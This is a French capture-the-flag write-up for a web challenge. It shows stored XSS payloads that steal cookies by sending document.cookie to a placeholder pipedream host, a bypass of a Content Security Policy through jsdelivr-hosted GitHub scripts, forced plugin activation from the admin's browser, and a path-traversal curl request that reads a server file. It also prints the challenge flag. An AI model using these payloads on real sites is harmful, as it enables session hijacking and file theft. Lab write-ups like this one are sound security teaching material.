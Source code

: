 # Plugin again


> Trouvez le contenu du fichier FLAG présent à la racine du serveur.

Nous avons accès à un site qui semble être une sorte de blog / BBS avec quelques utilisateurs.  

Impossible de souscrire ("Sign up disabled for now."), mais on peut ajouter des commentaires aux posts.  

## récupérer un cookie. 

Les commentaires sont sensibles aux injections JS. Par exemple ceci, entré dans un commentaire, redirige l'utilisateur vers une page sur laquelle nous pouvons faire un vol de cookie:

```
<script>window.location.replace("https://XXXXXXXXX.x.pipedream.net?c="+document.cookie.toString());</script>coucou
```

Toutefois la CSP nous en empêche et renvoie ce genre d'erreurs `Content-Security-Policy: The page’s settings blocked the loading of a resource at inline (“script-src”)`.  Or si on examine la CSP, on voit une exception sur un CDN `https://cdn.jsdelivr.net/`: 

```
<meta http-equiv="Content-Security-Policy" content="script-src https://cdn.jsdelivr.net/" />
```

Or d'[après la doc de ce site](https://www.jsdelivr.com/?docs=gh), il peut jouer le rôle de passe plat vers du code sur github. 

Si on met un script sur un dépot GH quelconque, et qu'on en fait l'injection dans un commentaire, on pourra voler les cookies des utilisateurs:


```
le commentaire:
<script src="https://cdn.jsdelivr.net/gh/un_user_github/un_deopt_github@a1b2c3d4e5/coucou.js"></script>coucou

Et le script sur le dépot GH: 
window.location.replace("https://XXXXXXXXX.x.pipedream.net?c="+document.cookie.toString());  
```

Une fois le cookie de "Johnny" récupéré, nous voici connecté en son nom. 


## Activer le plugin comprenant une faille

En lisant les commentaires, on comprend qu'un plugin, donc le code est sur GH, à été désactivé car il ouvrait une faille de sécurité. 

https://github.com/jhonnyCtfSysdream/JhonnyTemplater


Et effectivement, on tombe sur ce code qui, puisque nous controlons le contenu de `theme`, est parfait pour parcourir tout le disque du serveur: 
```
f = open("app/texts/" + theme, 'r')
```

Malheureusement, impossible d'activer le plugin en étant connecté en tant que Johnny, il faut être admin.  

J'ai tenté d'envoyer un message à l'admin, via la messagerie de l'application, avec le même code de vol de cookie que celui qui a fonctionné pour johnny.  Et ca fonctionne, j'ai donc le cookie de l'admin. Mais en substituant le cookie, cette erreur apparait : 

> Cookie not valid for that IP , please connect on localhost to be admin 

Si le code a fonctionné, c'est qu'il a été exécuté par l'admin.  Pas besoin de plus, j'ai juste à lui faire activer le plugin directement depuis son navigateur.  

```
Message : 
<script src="https://cdn.jsdelivr.net/gh/un_user_github/un_deopt_github@a1b2c3d4e5/coucou2.js"></script>coucou

Script:  
const xhr = new XMLHttpRequest();
xhr.open("GET", "http://localhost:5000/activate-plugin/1");
xhr.send();
```

Et le plugin avec la faille est activé.  

## Exploiter le plugin 

Maintenant on a le johnny templater sur la page de nouveau post: 
http://website-akwttb.inst.malicecyber.com/new-post

Un simple payload nous renvoie le flag:

```
curl 'http://website-lqptvz.inst.malicecyber.com/new-post' \
    -X POST \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Cookie: session=xxxxx' \
    --data-raw 'theme=../../../../../FLAG&submit-template=&title=&text='

    <textarea name="text" id="text" class="form-control" rows="10">The FLAG is DGHACK{WellD0ne!Bl0ggingIsS0metimeRisky}</textarea>
```




